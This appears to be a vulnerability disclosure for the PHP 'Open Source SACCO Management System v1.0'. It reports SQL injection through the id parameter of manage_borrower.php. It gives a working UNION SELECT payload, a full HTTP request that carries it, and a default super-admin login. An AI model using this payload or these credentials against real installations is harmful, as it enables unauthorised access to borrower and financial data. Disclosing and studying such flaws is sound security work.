 # Open Source SACCO Management System v1.0 by mayuri_k has SQL injection

BUG_Author: kingcoues

Login account: mayuri.infospace@gmail.com/admin (Super Admin account)

vendors: https://www.sourcecodester.com/php/15372/open-source-sacco-management-system-free-download.html

The program is built using the xmapp-php8.1 version

Vulnerability File: /sacco_shield/manage_borrower.php

Vulnerability location: /sacco_shield/manage_borrower.php?id=, id

dbname = sacco,length=5

[+] Payload: /sacco_shield/manage_borrower.php?id=-2%20union%20select%201,database(),3,4,5,6,7,8,9--+ // Leak place ---> id

```sql
GET /sacco_shield/manage_borrower.php?id=-2%20union%20select%201,database(),3,4,5,6,7,8,9--+ HTTP/1.1
Host: 192.168.1.88
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=5g4g4dffu1bkrg9jm7nr42ori2
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/191198339-c758fca4-5f0b-438b-9cd6-36efe3b82f13.png)

